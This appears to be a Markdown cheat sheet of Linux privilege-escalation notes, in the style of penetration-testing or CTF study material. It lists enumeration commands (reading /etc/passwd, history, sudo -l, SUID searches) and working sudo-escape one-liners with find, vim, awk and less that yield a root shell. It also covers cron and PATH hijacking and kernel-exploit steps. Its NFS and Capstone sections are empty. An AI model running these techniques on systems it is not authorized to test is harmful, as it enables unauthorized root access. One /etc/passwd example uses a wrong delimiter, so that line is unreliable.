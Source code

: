 - Identifying the system and environment (e.g., `hostname`, `uname -a`, `/etc/issue`)
- Reviewing running processes and permissions (e.g., `ps`, `id`, `sudo -l`)
- Investigating users, files, and history (e.g., `ls -la`, `/etc/passwd`, `history`)
- Exploring the network setup and connections (e.g., `ifconfig`, `netstat`, `ip route`)
- Locating tools, binaries, and sensitive files (e.g., `find`, `env`)

| **Command**                  | **Description**                                                                                              |     |
| ---------------------------- | ------------------------------------------------------------------------------------------------------------ | --- |
| `hostname`                   | Displays system hostname; can hint at machine's role (e.g., SQL-PROD-01).                                    |     |
| `uname -a`                   | Shows detailed system and kernel information.                                                                |     |
| `/proc/version`              | Provides kernel version and compiler info (via procfs). (`cat /proc/version`)                                |     |
| `/etc/issue`                 | Displays OS version (can be customized).(`cat /etc/issue`)                                                   |     |
| `ps -A`, `ps aux`, `ps axjf` | Lists running processes, users, and process trees.                                                           |     |
| `env`                        | Shows environment variables like `PATH` which may include useful binaries.                                   |     |
| `sudo -l`                    | Lists commands the user can run with elevated privileges via `sudo`.                                         |     |
| `ls -la`                     | Lists files in a directory, showing hidden and permission details.                                           |     |
| `id`                         | Displays user ID, group ID, and group memberships.                                                           |     |
| `/etc/passwd`                | Lists system users; useful for enumeration and brute-force targeting. (`cat /etc/passwd \| cut -d "." -f 1`) |     |
| `history`                    | Shows previously executed commands; may expose credentials.                                                  |     |
| `ifconfig`                   | Displays network interfaces and IP addresses.                                                                |     |
| `ip route`                   | Reveals routing table and potential reachable networks.                                                      |     |
| `netstat -a/n/l/tp/s/i`      | Shows open ports, connections, network statistics, and interface data.                                       |     |
| `find`                       | Searches files by name, size, permissions, timestamps, or ownership.                                         |     |
| `find / -perm -u=s`          | Locates files with the SUID bit set (potential privilege escalation).                                        |     |
| `find / -writable -type d`   | Finds world-writable directories.                                                                            |     |
| `find / -name python*`       | Finds installed development tools or interpreters.                

# Kernel Exploit
1. Identify the kernel version
2. Search and find an exploit code for the kernel version of the target system. Ex: [exploit-db](https://www.exploit-db.com/)
3. Run the exploit 

# Sudo 
In order to exploiting sudo users, first you need to find which commands current user is allowed, using the **_sudo -l_** command
```sh
#Example
User andrea may run the following commands on viserion:
 (root) NOPASSWD: /usr/bin/find
 (root) NOPASSWD: /usr/bin/vim
 (root) NOPASSWD: /usr/bin/awk
```

```sh
andrea@viserion:~$ sudo find /etc/passwd -exec /bin/sh \;
# whoami
root
```

or the **-c** paramether of **vim**:

```sh
andrea@viserion:~$ sudo vim -c '!sh'
# whoami
root
```

```sh
Also **awk** allows the invocation of a shell:

andrea@viserion:~$ sudo awk 'BEGIN {system("/bin/sh")}'
# whoami
root
```

and **less**, **more** and **man** allows command execution:

 ## MISCELLANEOUS COMMANDS

```sh
-<flag> Toggle a command line option [see OPTIONS below].
 --<name> Toggle a command line option, by name.
 _<flag> Display the setting of a command line option.
 __<name> Display the setting of an option, by name.
 +cmd Execute the less cmd each time a new file is examined.
 **!command Execute the shell command with $SHELL.**
 |Xcommand Pipe file between current pos & mark X to shell command.
 v Edit the current file with $VISUAL or $EDITOR.
 V Print version number of "less".
```
So, simply call:

```sh
sudo less /etc/hosts
# or
sudo more /etc/hosts
# or
sudo man ls
```

Then press _**!sh**_ and hit enter.

# SUID
`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.
Search info on [GTFOBins](https://gtfobins.github.io)
# Capabilities
1. `getcap -r / 2>/dev/null`
2. [GTFOBins](https://gtfobins.github.io)
# Cron 
Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.  
The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.
# Path 
`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
1. Searching writable folders
2. Export that folder to PATH
Ex:
	The folder that will be easier to write to is probably /tmp. At this point because /tmp is not present in PATH so we will need to add it. As we can see below, the “`export PATH=/tmp:$PATH`” command accomplishes this.
# NFS

# Capstone